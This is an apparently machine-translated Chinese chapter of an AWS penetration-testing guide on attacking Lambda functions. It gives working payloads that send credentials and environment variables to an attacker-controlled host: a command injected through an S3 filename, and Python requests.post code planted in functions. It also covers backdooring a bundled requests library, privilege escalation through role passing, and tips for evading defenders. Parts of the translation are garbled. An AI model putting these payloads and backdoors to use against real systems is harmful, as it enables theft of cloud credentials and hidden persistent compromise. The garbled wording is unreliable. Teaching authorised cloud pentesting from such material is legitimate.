在`"Sid"`键中可以找到另一个大提示，在这里我们可以看到值`"000000000000_event_permissions_for_LambdaTriggerOnS3Upload_from_bucket-for-lambda-pentesting_for_Vul"`，它显示了`"LambdaTriggerOnS3Upload"`。我们现在可以有根据地猜测，当文件上传到 S3 存储桶`"bucket-for-lambda-pentesting"`时，会调用 Lambda 函数。如果您还记得我们在设置这些资源时，`"LambdaTriggerOnS3Upload"`是我们之前添加到 S3 存储桶中的事件触发器的名称，因此在本例中，详细的命名方案帮助我们摆脱了攻击者的身份。更棒的是，我们知道我们已将`"s3:PutObject"`权限应用于我们的受损用户！

我们现在有拼图的所有部分了。我们知道 Lambda 函数使用一个变量（`file_download_path`）运行一个 shell 命令，我们知道该变量由另一个变量`(object_key`组成，我们知道该变量被设置为值`record['s3']['object']['key']`。我们还知道，每当文件上传到`"bucket-for-lambda-pentesting"`S3 存储桶时，就会调用 Lambda 函数，并且我们拥有将文件上传到该存储桶的必要权限。考虑到所有这些，这意味着我们可以上传一个具有我们选择的名称的文件，该文件最终将被传递到一个 shell 命令中，如果我们试图在系统上执行代码，这正是我们想要的！

但是坚持住；在运行 Lambda 函数的服务器上执行任意代码，如果它是只读文件系统，并且我们已经有了源代码，有什么好处？更多的证书，这就是好处！如果您还记得前面的内容，我们需要创建一个 IAM 角色来附加到我们创建的 Lambda 函数，该函数允许我们的函数使用 AWS API 进行身份验证。当 Lambda 函数运行时，它将承担附加到它的 IAM 角色，并获取一组临时凭据（请记住，这是一个访问密钥 ID、秘密访问密钥和会话令牌）。Lambda 函数与 EC2 实例稍有不同，这意味着在`http://169.254.169.254`没有元数据服务，这也意味着我们无法通过那里检索这些临时凭证。Lambda 做的不同；它将凭据存储在环境变量中，因此，一旦我们可以在服务器上执行代码，我们就可以过滤这些凭据，然后我们就可以访问与附加到 Lambda 函数的角色相关联的所有权限。

在本例中，我们知道 LambdaRoleForVulnerableFunction IAM 角色具有完全的 S3 访问权限，这比我们微不足道的`PutObject`访问权限要多得多，而且它还具有一些 CloudWatch 日志权限。我们目前无法在 CloudWatch 中读取日志，因此需要将凭据导出到我们控制的服务器。否则，我们将无法读取这些值。

现在，让我们开始我们的有效载荷。有时，如果您将整个 Lambda 函数复制到您自己的 AWS 帐户中，它可能会帮助您制定有效负载，您可以使用有效负载对其进行爆炸，直到找到可以工作的东西，但我们将首先手动尝试此方法。我们知道，我们基本上控制`object_key`变量，该变量最终被放入 shell 命令中。因此，如果我们传入一个无害的值`"hello.zip"`，我们将看到以下内容：

```
Line 13: object_key is assigned the value of "hello.zip"

Line 14: object_key is URL decoded by urllib.parse.unquote_plus (Note: the reason this line is in the code is because the file name comes in with special characters URL encoded, so those need to be decoded to work with the S3 object directly)

Line 25: file_download_path is assigned the value of f'/tmp/{object_key.split("/")[-1]}', which ultimately resolves to "/tmp/hello.zip"

Lines 29-30: A shell command is run with the input f'zipinfo {file_download_path} | grep ^- | wc -l', which resolves to "zipinfo /tmp/hello.zip | grep ^- | wc -l".
```

似乎我们只需要担心一个限制，那就是代码检查文件第 16 行是否有`.zip`扩展名。考虑到所有这些信息，我们现在可以开始处理恶意负载了。

`zipinfo /tmp/hello.zip`命令中直接有我们用户提供的字符串，所以我们只需要将此命令分解以运行我们自己的任意命令。如果我们将`hello.zip`更改为类似`hello;sleep 5;.zip`的内容，那么最终的命令将是`"zipinfo /tmp/hello;sleep 5;.zip | grep ^- | wc -l"`。我们插入了两个分号，这使 shell 解释器（bash）认为要执行的命令不止一个。不是运行单个命令`zipinfo /tmp/hello.zip`，而是运行`"zipinfo /tmp/hello"`，该命令将失败，因为该文件不存在；然后，它会运行`"sleep 5"`并休眠 5 秒钟，然后它会运行`".zip"`，这不是一个真正的命令，所以会抛出一个错误。

就这样，我们将一个命令（`sleep 5`）注入到 Lambda 服务器的 shell 中。现在，因为这是盲目的（如中所示，我们看不到任何命令的输出），我们需要过滤我们想要的重要信息。支持 Lambda 函数的操作系统默认安装了`"curl"`，因此这将是一种发出外部请求的简单方法，并且我们知道 AWS 凭据存储在环境变量中，因此我们只需要`curl`将凭据发送到我们控制的服务器。

为此，我在自己的服务器上设置了一个 NetCat 侦听器（本演示中以 IP 地址`1.1.1.1`为例），该服务器的端口`80`处于打开状态，并使用以下命令：

```
nc -nlvp 80
```

然后，我们将制定有效负载，以过滤凭证。我们可以使用`"env"`命令访问环境变量，因此使用 curl 向我们的外部服务器发出 HTTP POST 请求的一般命令将包括作为主体的所有环境变量，如下所示：

```
curl -X POST -d "`env`" 1.1.1.1
```

它可能看起来有点古怪，但因为`"env"`命令提供多行内容，所以需要将其放在引号中，否则会弄乱整个命令（尝试在您自己的服务器上运行`"curl -X POST -d `env` 1.1.1.1"`并查看结果）。如果您不熟悉，backticks（```命令指示 bash 在执行整个`curl`命令之前运行`"env"`命令，因此它将`POST`这些变量发送到我们的外部服务器。另外，因为我们的服务器正在监听端口`80`，所以我们不需要在`curl`命令中包含`http://`或该端口，因为给定一个 IP 地址，默认是转到`http://1.1.1.1:80`。这样可以避免很多不必要的字符。这可能不一定是一种常规的方法，但是这个字符串的优点是它很容易放入文件名，这正是我们利用这个 Lambda 函数所需要的！

回到我们的有效载荷；现在，我们需要使用以下名称将文件上载到 S3：

```
hello;curl -X POST -d "`env`" 1.1.1.1;.zip
```

Microsoft Windows 不允许您使用此名称创建文件，因为其中包含双引号，但使用 Linux 很容易做到这一点。我们可以使用`touch`命令创建文件。它将如下所示：

```
touch 'hello;curl -X POST -d "`env`" 1.1.1.1;.zip'
```

前面命令的输出如下所示：



在我们自己的 Ubuntu 服务器上创建带有恶意名称的文件

一切都准备好了。我们需要做的就是确保我们的 NetCat 侦听器已在外部服务器上启动，然后我们需要将此文件上载到`bucket-for-lambda-pentesting`S3 bucket，然后等待 Lambda 函数被调用，最后等待恶意命令执行。我们可以使用 S3`copy`AWS CLI 命令将本地恶意文件复制到远程 S3 bucket 进行上传：

```
aws s3 cp ./'hello;curl -X POST -d "`env`" 1.1.1.1;.zip' s3://bucket-for-lambda-pentesting --profile LambdaReadOnlyTester
```

它看起来有点混乱，因为我们的恶意文件名，但它所做的只是使用 S3`copy`命令作为`LambdaReadOnlyTester`AWS CLI 配置文件，将我们的本地恶意文件复制到`bucket-for-lambda-pentesting`S3 bucket。执行此命令后，我们只需等待并观察我们的 NetCat 侦听器，希望获得一些凭据！几秒钟后，我们将看到以下内容：


来自 Lambda 服务器的所有环境变量都发布到我们的 NetCat 侦听器

我们做到了！我们刚刚通过一种有时称为事件注入的方法，在运行 Lambda 函数的服务器上成功地实现了代码执行，然后我们成功地将附加到该 Lambda 函数的角色的凭据导出到外部服务器。现在，您可以将这些凭据扔到 AWS CLI 中，继续前进并征服！

奖励：在撰写本文时，GuardDuty 的`UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration`查找类型（[https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_unauthorized.html#unauthorized11](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_unauthorized.html#unauthorized11) 不适用于从 Lambda 服务器中过滤出来的凭据！

最后一点需要注意的是，我们使用了一种事件注入方法来利用这个 Lambda 函数，但是还有很多其他类型的方法。您可以通过多种方法触发 Lambda 函数调用，例如前面的 DynamoDB 示例，或者可能通过 cloudwatchevents 规则触发 Lambda 函数调用。您只需要了解如何将自己的输入输入到函数中，以控制执行。实现这一点的最简单、最快捷的方法是使用自定义测试事件（如果您拥有`"lambda:InvokeFunction"`权限），因为您可以在事件中指定所需的确切负载。

在测试 Lambda 函数（具有读访问权限）时，需要记住的其他事项包括：

*   检查与每个功能相关联的标签，以获取敏感信息。这是极不可能的，但并非前所未闻。
*   正如我们前面讨论的，考虑将整个函数复制到您自己的 AWS 帐户进行测试，这样您就不需要在目标环境中产生噪声。
*   如果您有 CloudWatch 日志访问权限，请查看每个 Lambda 函数的执行日志，以查看是否打印了任何敏感信息（存储在`"/aws/lambda/<function name>"`日志组中）。
*   通过点击`"Actions"`下拉菜单，点击`"Export function"`并选择`"Download deployment package"`，您可以从 AWS web 控制台下载整个 Lambda 功能的`.zip`文件。然后，转移到您自己的帐户就很简单了。
*   尝试制定有效负载，以便它们在不中断函数执行的情况下执行您想要的操作。出现错误的 Lambda 函数执行可能会引起一些不必要的注意！
*   在编写有效负载时，要小心函数超时。默认情况下，函数会在三秒后超时，因此在这种情况下，您需要一些快速、简单的过滤。

# 通过读写访问攻击 Lambda 函数

既然我们已经讨论了攻击 Lambda 函数，而您只有对 Lambda 的读访问权限，那么我们将继续讨论读写访问。在这个场景中，我们假设你作为攻击者拥有`"lambda:*"`权限，这基本上意味着你可以读写任何东西，包括编辑现有函数、创建自己的函数、删除函数等等。这打开了一个全新的攻击面，它是许多不同攻击的主要来源，特别是权限提升、数据过滤和持久性。

在本节中，我们不会设置一个新的易受攻击的函数，而是使用之前为几个演示设置的函数。

# 特权升级

根据您遇到的设置，通过 Lambda 函数升级权限相对容易。我们将研究两种不同的场景：一种是您拥有`"lambda:*"`权限和`"iam:PassRole"`权限，另一种是仅拥有`"lambda:*"`权限。

首先，我们假设我们除了拥有完整的 Lambda 访问权限外，还拥有`"iam:PassRole"`权限。我们还假设可以列出 IAM 角色，但仅此而已（`iam:ListRoles`。在这种情况下，我们的目标甚至不一定需要积极使用 Lambda 来提升我们的特权。由于我们具有 IAM`ListRoles`权限，因此可以运行以下 AWS CLI 命令查看帐户中存在哪些 IAM 角色（请确保指定您正在使用的正确配置文件）：

```
aws iam list-roles --profile LambdaReadWriteUser
```

您应该返回帐户中每个角色及其`"AssumeRolePolicyDocument"`的列表。现在，我们可以通过这个列表筛选 Lambda 可以承担的任何角色。以下是此响应中的示例角色（这是我们为易受攻击的功能创建的角色）：

```
{
    "Path": "/",
    "RoleName": "LambdaRoleForVulnerableFunction",
    "RoleId": "AROAIWA1V2TCA1TNPM9BL",
    "Arn": "arn:aws:iam::000000000000:role/LambdaRoleForVulnerableFunction",
    "CreateDate": "2018-12-19T21:01:17Z",
    "AssumeRolePolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Allow",
                "Principal": {
                    "Service": "lambda.amazonaws.com"
                },
                "Action": "sts:AssumeRole
            }
        ]
    },
    "Description": "Allows Lambda functions to call AWS services on your behalf.",
    "MaxSessionDuration": 3600
}
```

我们可以看到在`"AssumeRolePolicyDocument"``"Statement"``"Principal"`下指定了一个`"Service"`，其值为`"lambda.amazonaws.com"`。这意味着 Lambda AWS 服务可以承担此角色并获取临时凭据。对于要附加到 Lambda 函数的角色，Lambda 必须能够承担该角色。

现在，过滤掉角色列表，这样您就只剩下 Lambda 可以担任的角色了。同样，我们假设除了`ListRoles`和`PassRole`之外，我们没有任何 IAM 特权，因此我们无法调查这些角色拥有哪些权限，我们最好的办法是根据他们的名称和描述推断他们将使用哪些服务。运行 IAM`ListRoles`时出现的一个角色名为`"LambdaEC2FullAccess"`，这使我们可以清楚地看到它应该具有哪些权限。EC2 是获得访问权的最有成效的服务之一，因此我们将在演示中针对这个角色。

在前几章中，我们研究了 IAM`PassRole`权限，该权限允许我们`"pass"`将 IAM 角色分配给某些 AWS 资源，以使其能够访问该角色的临时凭据。这方面的一个示例是将角色传递给 EC2 实例，该实例允许 EC2 服务访问该角色；在本章前面，我们甚至向易受攻击的 Lambda 函数传递了一个角色。我们可以完全访问 Lambda，并且能够将角色传递给 Lambda 函数，因此这意味着我们基本上可以访问 Lambda 可以访问的任何角色。

这可以通过 AWS CLI 和 Lambda`CreateFunction`API 来完成，但我们将介绍 AWS web 控制台。首先，我们要创建一个新的 Lambda 函数，给它一个名称（`"Test"`用于此演示），再次选择一个运行时（`python3.7`，然后选择`"Choose an existing role"`作为角色下拉菜单。然后，我们将从现有角色下拉菜单中选择`"LambdaEC2FullAccess"`，最后点击`"Create function"`。

这一次，我们可以直接访问函数的代码，因此我们不需要过滤，甚至不需要查看此角色的凭据。对于我们选择的编程语言，我们可以使用 AWS SDK 库，即 Python`boto3`库；它包含在 Lambda 设置中，因此不需要将其作为函数的依赖项。现在，剩下的就是决定我们想要对我们正在访问的角色做什么，我们知道它有基于名称的`"EC2FullAccess"`权限，所以我们将导入`boto3`，创建一个 EC2 客户端，并调用 EC2`DescribeInstances`API。这只需要 Python 中的几行代码，但我们希望格式化返回的 JSON 响应以便于阅读，因此我们还将使用 JSON 库。这可以在这里看到：

```
import json
import boto3
def lambda_handler(event, context):
    ec2 = boto3.client('ec2')
    reservations = ec2.describe_instances()['Reservations']
    print(json.dumps(reservations, indent=2, default=str))
```

需要注意的是，我们不需要为`boto3`客户机指定凭据，因为如果我们没有显式传入任何内容，它将自动检查环境变量。这样，它将始终使用 Lambda 函数中最新的凭据。

要执行该函数，我们需要创建一个测试事件，因此请确保单击橙色的保存按钮，然后直接单击左侧的白色测试按钮：


用于创建测试事件的测试按钮

应弹出屏幕设置测试事件；我们不关心它是如何配置的，因为我们实际上没有使用该事件。只需要通过 web 控制台运行该功能。我们将选择`Hello World`事件模板（您可以选择任何内容），并将其命名为`Test`，然后单击屏幕右下角的创建：



为我们的函数创建一个简单的测试事件

现在我们只需再次单击 Test 按钮，它将使用我们刚刚创建的 Test 事件执行我们的函数。我们在`us-west-2`区域发现了一个 EC2 实例（将`AWS_REGION`环境变量自动设置为 Lambda 函数所在的区域，因此`boto3`将在 API 调用中使用该区域）。我们可以在执行结果选项卡中看到这些结果，该选项卡应在函数执行后弹出：


检索到的有关 us-west-2 中 EC2 实例的一小部分信息

这是有效的，因此很明显，我们可以编写我们想要的任何代码，并指示 IAM 角色做我们想要的事情。也许我们想要启动一堆 EC2 实例，或者我们想要尝试使用此 EC2 访问进行进一步的利用，或者其他许多可能性。如果您没有 IAM`ListRoles`权限，您可以查看其他现有的 Lambda 函数，看看它们附加了哪些角色，然后您可以尝试这些角色，看看您获得了何种访问权限。

对于我们的第二个场景，我们假设我们没有 IAM`PassRole`权限，这意味着我们无法创建新的 Lambda 函数，因为该函数需要向其传递角色。为了利用这种情况，我们需要使用现有的 Lambda 函数。对于本演示，我们将针对本章前面创建的`VulnerableFunction`。

在这种情况下，我们需要更加小心，因为我们将修改现有函数，而不是创建新的 Lambda 函数。我们不想破坏环境中正在发生的任何事情，因为首先，作为戊酯，我们不惜一切代价试图避免这种情况，其次，我们不想把更多的注意力吸引到我们自己身上，因为我们是攻击者。一个突然停止工作的 Lambda 函数对于关注它的人来说是一个巨大的危险信号。我们可以通过确保添加到函数中的任何代码不会中断其余执行过程来确保不会发生这种情况，这意味着我们需要捕获并消除附加代码引发的任何错误。另外，因为我们可能不知道函数在正常执行的早期是否会出错，所以我们应该尽可能将代码放在执行的开始处，以确保它得到执行。

回到前面创建的`VulnerableFunction`，我们知道附加到它的角色具有 S3 权限，因为函数代码与 S3 交互（并且因为我们自己设置了角色）。简单来说，我们将列出帐户中的 S3 存储桶，看看我们可以使用什么。我们可以通过在第 6 行之后的`VulnerableFunction`中添加以下代码来实现这一点（在调用`lambda_handler()`之后，在运行任何其他代码之前）：

```
    try:
        s3 = boto3.client('s3')
        print(s3.list_buckets())
    except:
        pass
```

我们甚至可以像以前一样，导入 JSON 库并格式化输出，但最好对现有函数进行尽可能少的更改。我们正在使用一个`try`/`except`块来确保出现的任何错误不会停止函数的执行，通过将`pass`放入 except 块，我们可以确保错误被悄悄地丢弃，然后函数将正常执行。`VulnerableFunction`的开头应该是这样的：


我们添加代码后 VulnerableFunction 的开始

这个有效负载的唯一问题是，它假设我们可以查看这个 Lambda 函数的执行日志，我们可能有权也可能没有权访问这些日志。我们需要访问 CloudWatch 日志或使用测试事件运行函数，以便在 web 控制台中查看输出。现在我们要说的是，我们没有 CloudWatch 访问权限，所以我们必须进行测试事件。下一个问题是，我们可能丢失了这个 Lambda 函数的整个上下文。我们不一定知道调用函数什么时候有意义，函数出错什么时候有意义，它被调用的频率，如果在正常触发器之外调用它会有什么影响，以及其他许多事情。

为了解决这个问题，我们可以忽略它，对函数运行测试事件，而不必担心后果（这不是一个好主意，除非您非常确定它不会破坏环境中的任何东西，也不会引起防御者不必要的注意），或者我们可以修改负载以过滤凭证，有点像本章的第一节。这可能是最安全的方法，因为我们可以将恶意负载添加到函数中，在外部服务器上设置侦听器，然后等待 Lambda 函数正常调用。为此，我们可以导入子流程并像以前一样使用`curl`，但更简单的方法是使用 Python`requests`库。请求不会自动包含在 Lambda 函数可用的默认库中，但`botocore`是，并且`botocore`依赖于`requests`库，因此我们可以使用一个很酷的技巧来导入和使用`requests`。我们使用以下`import`语句代替`import requests`：

```
from botocore.vendored import requests
```

现在，我们可以正常访问`requests`库了。因此，按照我们在本章前面所做的类似方法，我们可以向外部服务器发送一个包含所有环境变量的 HTTP`POST`请求。我们还可以在 Lambda 函数中运行 AWS API 调用并过滤输出，这在技术上更安全，因为 API 调用将来自预期的相同 IP 地址，而不是我们的外部攻击 IP；然而，拉取环境变量更通用，并且随着时间的推移对函数的修改更少，因此我们将继续这样做。下面的有效负载将实现这一点（我们再次假装`1.1.1.1`是外部服务器的 IP）：

```
try:
    import os
    from botocore.vendored import requests
    requests.post('http://1.1.1.1', json=os.environ.copy(), timeout=0.01)
except:
    pass
```

使用`requests`库发送 HTTP`POST`请求，该请求包含操作系统库获取的环境变量，超时设置为`0.01`发送请求；代码立即继续，而不是等待任何响应并导致 Lambda 函数本身超时。将此有效负载添加到目标 Lambda 函数后，我们只需等待函数通过正常方式被调用，最终，我们将获得发送到服务器的凭据：



接收包含 Lambda 函数的所有环境变量的 POST 请求

# 数据外泄

数据过滤的工作方式可能与我们之前升级特权的方式非常相似，因为我们很可能编辑现有函数并从中过滤数据。我们有很多不同的方法可以做到这一点，下面列出了其中一些方法：

*   修改现有函数，并通过`"event"`和`"context"`参数过滤它正在接收的数据
*   创建一个新函数和相关触发器，以响应 AWS 环境中的某些事件，例如在[第 11 章](11.html)中，*使用 Boto3 和 Pacu 来维护 AWS 持久性*，其中我们在每次创建新用户时都会过滤凭证
*   修改现有函数并将我们的 Exchange 有效载荷放在函数的中间位置，以释放在函数正常执行期间收集/修改的数据。

这里还有许多其他的攻击向量；你只需要有创造力。

如果我们只是想让有效负载过滤传递给`"event"`参数的值，我们可以使用之前有效负载的稍微修改版本：

```
try:
    from botocore.vendored import requests
    requests.post('http://1.1.1.1', json=event, timeout=0.01)
except:
    pass
```

确保知道为正在使用的 Lambda 函数指定的超时。您不希望您的 Exfilter 花费太长的时间，以致 Lambda 函数超时并同时失败，因此，当您通过 Lambda Exfilter 大量数据时，最好是确保超时时间已设置为很长的时间，或者自行修改以增加超时时间。问题是，目标公司的 Lambda 账单会上涨，因为他们的功能比正常情况下需要更长的时间才能完成，这会引起您的注意。

# 坚持不懈

我们不打算深入探讨持久性，因为我们在上一章中已经介绍了持久性，但是，与其他攻击 Lambda 的方法一样，可以使用新的 Lambda 函数或编辑现有的 Lambda 函数来建立持久性。坚持也可能意味着一些不同的事情。您是希望对 Lambda 函数的 bash shell 进行持久访问，还是希望对 AWS 环境进行持久访问，还是两者都要？这一切都是关于上下文以及什么最适合作为攻击者的情况。它甚至可能是有价值的后门多个 Lambda 功能，以防一个被抓住，并删除了一个后卫。

# 偷偷摸摸

这是你可以发挥创造力的地方。显然，添加到将数据发送到随机 IP 地址的函数中的随机代码对于熟悉该代码并正在重新查看该代码的任何人来说都是可疑的。在这种情况下，甚至可能没有防御者发现的妥协迹象，但开发人员碰巧注意到 Lambda 函数中的这段奇怪代码，并就此提出了一个问题，然后你就被抓住了。在整个函数的开头，恶意代码会更加明显，就像我们想要的那样，因此将负载嵌套在代码中的某个位置会有一点帮助。

将有效负载放置在不会改变输入功能（`lambda_handler()`中的任何内容，并且手动审查/发现的可能性极低的地方，怎么样？听起来好得难以置信，但事实并非如此！恶意黑客多年来一直在使用类似的技术，允许他们的软件/硬件后门在很长一段时间内保持活动状态，因此让我们将该技术应用于 Lambda，并保持警惕！

此技术涉及 Lambda 函数所依赖的后门依赖项。并不是所有您需要的库都包含在 Lambda 的库的基本集合中，正如我们在无法直接`import requests`时所看到的，因此开发人员被迫自己收集这些依赖项，并将它们与其余代码一起上传到 Lambda。我们将简短地看一个简单的例子。

假设我们无法导入带有`from botocore.vendored import requests`的`requests`库，我们需要在 Lambda 代码中包含该库。这可以通过将`requests`库与我们的基本 Lambda 代码放在一起，并将其作为`.zip`文件上传到 Lambda 来解决。

在本例中，我们有一个导入`requests`并向[发出请求的`lambda_function.py`文件 https://google.com/](https://google.com/) ，然后打印响应文本。`requests`库与它一起包含在整个库中，以便在下面的屏幕截图中第 2 行包含`import requests`代码。`requests`库还需要`chardet`、`urllib3`、`idna`和`certify`库，因此这些库包括：


使用包含的请求库的示例 Lambda 函数

这个函数很短，因此如果代码在我们的攻击过程中被直接修改，那么对任何人来说都是显而易见的，但是因为它正在导入`requests`库，而且`requests`库源代码也在那里，这将是我们的目标。我们可以看到，在第 4 行，`requests.get()`方法正在被调用。如果我们查看`requests`库的源代码，我们可以在`api.py`文件的第 63 行找到`requests.get()`方法（至少在撰写本文时）：


requests.get（）方法的源代码

我们已经知道，每次 Lambda 函数运行时都会调用此方法，因此我们需要做的只是直接修改它，而不是修改调用它的文件（`lambda_function.py`。这次我们的负载需要稍微不同，因为整个`requests`库不是直接导入`requests`库中的每个文件，所以我们必须使用`"request"`方法，而不是`requests.post()`。我们的有效载荷将如下所示：

```
try:
    data = {'url': url, 'params': params, **kwargs}
    request('POST', 'http://1.1.1.1', json=data, timeout=0.01)
except:
    pass
```

这个有效负载基本上只是在完成原始请求之前，对我们自己的服务器发出的每个请求的所有细节进行过滤。我们或许能够截获一些敏感数据，以发挥我们的优势。我们可以在`get`方法中正确放置我们的恶意渗出负载，如以下屏幕截图所示：


我们的有效负载放在 requests.get（）方法中

即使它看起来有点奇怪，也很少有开发人员会考虑查看他们包含的某个库的源代码，即使他们查看了，他们也没有编写该库，因此对他们来说，它可能并不一定那么奇怪。现在，每次调用这个 Lambda 函数时，`requests.get()`方法都会被调用，这意味着我们的负载将被执行，我们将过滤一些数据：



成功地从 Python 依赖项中进行 Exfilter

我们现在已经成功地从 Lambda 函数中过滤出了信息，而没有修改主函数的任何实际代码。这种攻击也可以深入到很多层次。如果主 Lambda 函数需要库 X，而库 X 中的方法需要库 Y，那么您可以一直后门到库 Y。没有限制，只要您的方法以某种方式被调用。

在真实的攻击场景中，要做到这一点，您只需像前面一样将 Lambda 函数导出到一个`.zip`文件中，进行修改，然后将其作为该函数的最新版本重新上传。即使防御者看到功能被修改，他们也可能永远找不到您实现的后门。

# 转向虚拟私有云

我们已经介绍了很多关于攻击 Lambda 函数的内容，但在本节中，我们将讨论从访问 Lambda 函数转向访问**虚拟私有云**（**VPC**的内部网络。这是可能的，因为 Lambda 函数可以出于各种原因启动到 VPC 中。这为攻击者提供了 Lambda 访问权限，使其能够与我们无法访问的内部主机和服务进行交互。

同样，我们可以从两个不同的角度来处理这个问题。如果我们拥有所需的特权，我们可以将新的 Lambda 函数启动到我们选择的 VPC 中，或者我们可以修改已经启动到 VPC 中的 Lambda 函数的代码。我们将运行一个演示，其中我们将编辑一个已经在专有网络中启动的功能。

对于本演示，如果我们查看 Lambda web UI 中的网络选项卡，我们可以看到此功能已启动到默认 VPC 中，它位于两个子网中，并且位于安全组`sg-0e9c3b71`中。我们还可以看到，安全组允许从某个 IP 地址对端口 80 进行入站访问，并允许从同一安全组内的服务器访问所有端口：


目标 Lambda 函数的网络设置

然后，我们将运行一个 EC2`DescribeInstances`API 调用，以了解该专有网络中还存在哪些其他服务器。我们可以使用以下 AWS CLI 命令执行此操作：

```
aws ec2 describe-instances
```

或者，我们可以使用`"ec2__enum"`Pacu 模块。结果显示有一个 EC2 实例，它与 Lambda 函数位于同一个安全组中：



与 Lambda 函数位于同一安全组中的一个 EC2 实例

根据我们在此安全组的入站规则中看到的情况，我们知道 Lambda 函数可以访问 EC2 实例上的每个端口。我们还知道，端口`80`上可能承载着某些内容，因为同一个安全组将对端口`80`的不同 IP 地址的访问列为白名单。作为拥有少量 EC2 权限的攻击者，通常很难访问 VPC 内部，但 Lambda 允许我们绕过这一点。我们只需要修改 Lambda 函数中的代码，就可以在 VPC 网络中执行我们想要的操作。

